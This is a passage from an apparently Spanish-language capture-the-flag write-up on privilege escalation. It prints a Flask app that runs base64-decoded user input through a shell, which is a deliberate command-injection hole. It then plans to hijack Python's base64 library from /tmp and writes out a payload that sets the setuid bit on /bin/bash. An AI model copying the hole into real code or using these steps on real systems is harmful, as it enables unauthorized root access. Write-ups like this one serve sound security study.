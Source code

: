 Revisando el contenido de la **app**
```bash
cat app.py 
from flask import Flask, request, render_template, Response
import base64
import subprocess

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/submitTemplate', methods=['POST'])
def submit_Template():
    template = request.form.get('userInput', '')
    try:
        decoded = base64.b64decode(template).decode()
        process = subprocess.Popen(decoded, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        output, error = process.communicate()
        output_str = output.decode('utf-8') if output else ''
        error_str = error.decode('utf-8') if error else ''
        if error_str:
            return Response(f'Error: {error_str}', content_type='text/plain')
        return Response(output_str, content_type='text/plain')
    except Exception as e:
        return Response(f'Error: {str(e)}', content_type='text/plain')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

Esto me hace pensar que podemos realizar un secuestro de librerias de python: Ya que el usuario **root** ejecuta este proceso en el sistema
```bash
ps -faux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   6236  4104 ?        Ss   19:49   0:00 su - cachopin -c /home/cachopin/venv/bin/python /home/cachopin/app/app.py
```

Lo que aremos es irnos al directorio tempooral **/tmp** para crear un bianrio malicioso **base64** que contrendra instrucciones maliciosas
```bash
touch base64.py
chmod +x base64.py
```

Como no tenemos el editor **nano** procedemos a inyectar el codigo malicioso de la siguiente manera:
```bash
echo 'import os; os.system("chmod u+s /bin/bash")' > base64.py
```
